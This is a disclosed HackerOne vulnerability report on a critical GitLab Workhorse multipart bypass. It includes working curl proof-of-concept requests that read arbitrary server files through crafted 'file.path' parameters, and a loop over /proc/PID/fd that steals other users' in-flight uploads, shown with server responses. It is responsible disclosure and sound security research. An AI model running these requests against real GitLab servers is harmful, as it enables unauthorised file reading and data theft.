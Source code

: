 # gitlab-workhorse bypass in Gitlab::Middleware::Multipart allowing files in `allowed_paths` to be read

## Report Details
- **Report ID**: 850447
- **URL**: https://hackerone.com/reports/850447
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-15T14:59:54.154Z
- **Disclosed**: 2020-06-08T04:57:08.889Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
Extracted from https://hackerone.com/reports/835455#activity-7672566

While testing and looking at the patch for the nuget package workhorse bypass (https://gitlab.com/gitlab-org/gitlab/issues/209080 I think) I came across a more widespread bypass:

```bash
# create test file on gitlab server
echo hello > /tmp/ggg; sudo chown git:git /tmp/ggg

# attacker
curl -XPUT -v -F '[package]=@/tmp/lala.txt' "http://vakzz:$TOKEN@gitlab-vm.local/api/v4/projects/171/packages/nuget/?package.path=/tmp/ggg"

{"message":"201 Created"}
```

Using `[package]` as the field name causes the `@rewritten_fields` to contain:

```json
{
  "rewritten_fields": {
    "[package]": "/var/opt/gitlab/gitlab-rails/shared/packages/tmp/uploads/lala.txt539589799"
  },
  "iss": "gitlab-workhorse"
}
```
This is then used `parsed_field = Rack::Utils.parse_nested_query(field)` which ends up creating the hash `{"package"=>nil}` (same as package would return). This passes the validation, but the `Multipart::Handler` will then use the query params as they match instead of the payload that workhorse sends through.

This also allows for any file in the following to be accessed:

```ruby
       def allowed_paths
          [
            ::FileUploader.root,
            Gitlab.config.uploads.storage_path,
            JobArtifactUploader.workhorse_upload_path,
            File.join(Rails.root, 'public/uploads/tmp')
          ]
        end
```

This could be done anywhere that accelerated uploads, eg the `UploadsController` or uploading a wiki file.

Using the wiki api removes the restriction that the file needs to be owned by `git` due to `file_content: attrs[:file].read` happening instead of moving the original file:

```bash
echo hello > /tmp/ggg; sudo chown root:root /tmp/ggg

$ curl -g -XPOST -v -H "Authorization: Bearer $TOKEN" 'http://gitlab-vm.local/api/v4/projects/171/wikis/attachments?file.path=/tmp/ggg' -F '[file]=@/tmp/lala.txt'

{"file_name":"ggg","file_path":"uploads/58ec1627b3f14eba0a16659fd859da63/ggg","branch":"master","link":{"url":"uploads/58ec1627b3f14eba0a16659fd859da63/ggg","markdown":"[ggg](uploads/58ec1627b3f14eba0a16659fd859da63/ggg)"}}
```

It's also fairly easy to steal incoming files tmp files that are currently opened in rails by:

1. Determine a valid PID by looping over `/proc/PID` until a `cwd` is found and readable by `git` (eg the `unicorn` worker will have `/proc/19606/cwd -> /var/opt/gitlab/gitlab-rails/working`) and traverse to a valid upload path:

    ```bash
$ curl -s -o /dev/null -w "%{http_code}\n" -XPOST -H "Authorization: Bearer $TOKEN" 'http://gitlab-vm.local/api/v4/projects/171/wikis/attachments?file.path=/proc/19601/cwd/../../../../../opt/gitlab/embedded/service/gitlab-rails/public/422.html' -F '[file]=@/tmp/lala.txt'
500
$ curl -s -o /dev/null -w "%{http_code}\n" -XPOST -H "Authorization: Bearer $TOKEN" 'http://gitlab-vm.local/api/v4/projects/171/wikis/attachments?file.path=/proc/19603/cwd/../../../../../opt/gitlab/embedded/service/gitlab-rails/public/422.html' -F '[file]=@/tmp/lala.txt'
201
    ```

1. Using this pid, use `/proc/PID/fd/XX` as the `file.path` (looking at my server a fd of 44 was the used pretty consistently for tmp files) and run it in a loop:

    ```bash
$ while true; do curl -s -XPOST -H "Authorization: Bearer $TOKEN" 'http://gitlab-vm.local/api/v4/projects/171/wikis/attachments?file.path=/proc/19603/fd/44' -F '[file]=@/tmp/lala.txt'| grep file_name; done
    ```

1. Upload a bunch of things, eventually a file will be stolen:

    ```json
{"file_name":"image.png115893730","file_path":"uploads/232bcab08d5dcc29cc45c9fa1e868484/image.png115893730","branch":"master","link":{"url":"uploads/232bcab08d5dcc29cc45c9fa1e868484/image.png115893730","markdown":"[image.png115893730](uploads/232bcab08d5dcc29cc45c9fa1e868484/image.png115893730)"}}
    ```

### Steps to reproduce

1. create a new project
1. create a wiki page
1. create a test file on the gitlab server: `echo hello > /tmp/ggg;`
1. create a dummy file on the attackers server `echo unused > /tmp/lala.txt`
1. Upload a wiki file using the crafted params
        ```bash
$ curl -g -XPOST -v -H "Authorization: Bearer $TOKEN" 'http://gitlab-vm.local/api/v4/projects/171/wikis/attachments?file.path=/tmp/ggg' -F '[file]=@/tmp/lala.txt'`
{"file_name":"ggg","file_path":"uploads/58ec1627b3f14eba0a16659fd859da63/ggg","branch":"master","link":{"url":"uploads/58ec1627b3f14eba0a16659fd859da63/ggg","markdown":"[ggg](uploads/58ec1627b3f14eba0a16659fd859da63/ggg)"}}
        ```
1. paste the markdown into the wiki page and download the file

### Impact
* read known files in `::FileUploader.root, Gitlab.config.uploads.storage_path, JobArtifactUploader.workhorse_upload_path, File.join(Rails.root, 'public/uploads/tmp')`
* read unknown inflight files by using the symlinks in `/proc/PID/fd/XX` belonging to other users.

### Examples
* https://gitlab.com/vakzz-h1/workhorse-bypass/-/wikis/home
The above was uploaded using `file.path=/opt/gitlab/embedded/service/gitlab-rails/public/422.html` to verify.

### What is the current *bug* behavior?
An attacker can specify `file.*` params and have gitlab believe they are valid and signed 

### What is the expected *correct* behavior?
Only params from the workhorse should be valid

### Output of checks
#### Results of GitLab environment info
```
System information
System:     Ubuntu 18.04
Proxy:      no
Current User:   git
Using RVM:  no
Ruby Version:   2.6.5p114
Gem Version:    2.7.10
Bundler Version:1.17.3
Rake Version:   12.3.3
Redis Version:  5.0.7
Git Version:    2.24.1
Sidekiq Version:5.2.7
Go Version: unknown

GitLab information
Version:    12.9.3-ee
Revision:   7c13691fb8e
Directory:  /opt/gitlab/embedded/service/gitlab-rails
DB Adapter: PostgreSQL
DB Version: 10.12
URL:        http://gitlab-vm.local
HTTP Clone URL: http://gitlab-vm.local/some-group/some-project.git
SSH Clone URL:  git@gitlab-vm.local:some-group/some-project.git
Elasticsearch:  no
Geo:        no
Using LDAP: no
Using Omniauth: yes
Omniauth Providers:

GitLab Shell
Version:    12.0.0
Repository storage paths:
- default:  /var/opt/gitlab/git-data/repositories
GitLab Shell path:      /opt/gitlab/embedded/service/gitlab-shell
Git:        /opt/gitlab/embedded/bin/git
```

## Impact

* read known files in `::FileUploader.root, Gitlab.config.uploads.storage_path, JobArtifactUploader.workhorse_upload_path, File.join(Rails.root, 'public/uploads/tmp')`
* read unknown inflight files by using the symlinks in `/proc/PID/fd/XX` belonging to other users.

## Attachments
No attachments
